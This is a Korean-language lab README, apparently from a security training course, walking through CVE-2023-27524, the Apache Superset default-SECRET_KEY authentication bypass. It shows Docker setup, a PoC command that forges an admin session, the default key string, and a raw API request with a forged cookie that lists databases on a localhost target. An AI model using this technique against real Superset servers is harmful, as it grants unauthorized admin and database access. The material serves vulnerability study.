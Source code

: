 # CVE-2023-27524 - Apache Superset 인증 우회 취약점
---
> 화이트햇 스쿨 3기 (13반) - [박세민 (@8sheeta8)](https://github.com/8sheeta8) 

## 개요

Apache Superset은 데이터 탐색과 시각화를 위한 오픈소스 플랫폼입니다.
Superset은 기본 설정으로 하드코딩된 SECRET_KEY 값을 사용합니다.
관리자가 이 값을 변경하지 않으면, 공격자가 이를 이용해 세션 쿠키를 위조하고 관리자로 로그인할 수 있습니다.
이를 통해 Superset 대시보드, 연결된 데이터베이스에 무단 접근이 가능하며, 추가 취약점과 연계할 경우 원격 코드 실행(RCE)까지 이어질 수 있습니다.

취약 버전: Superset <= 2.0.1
취약점 유형: 인증 우회 (Authentication Bypass)

참고:
- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>
  
## PoC GitHub

### 1. Docker를 이용한 취약 환경 구축
'''
docker compose up -d
'''
Superset 서버가 http://localhost:8088 에서 구동됩니다.


### 2. 의존성 설치
'''
# PoC 코드에 필요한 패키지를 설치합니다.
pip install -r requirements.txt
'''

### 3. Forged Session 쿠키 생성
'''
# PoC 코드를 실행하여 관리자 계정(user_id=1) 세션을 위조합니다.
python CVE-2023-27524.py --url http://localhost:8088 --id 1 --validate
'''
실행 결과 요약:
기본 SECRET_KEY 사용 (CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET) 확인

forged session 생성 완료
302 리다이렉션 발생 → 인증 우회 성공 판정

<img width="1280" alt="제목 없음" src="https://github.com/user-attachments/assets/136e9b98-eb68-4ccc-a959-a0b914f95bf7" />

### 4. 인증 우회하여 백엔드 접근
'''
# BurpSuite를 통해 forged session으로 API 호출

GET /api/v1/database/ HTTP/1.1
Host: localhost:8088
Cookie: session=eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.aA4W5Q.ni44K6wlFydKq4jwQZ0k3JcC6T0
'''
정상적으로 200 OK 응답 수신
데이터베이스 리스트 열람 가능

![스크린샷 2025-04-27 205322](https://github.com/user-attachments/assets/3253505d-8ded-49b9-91f0-c0b05751c396)
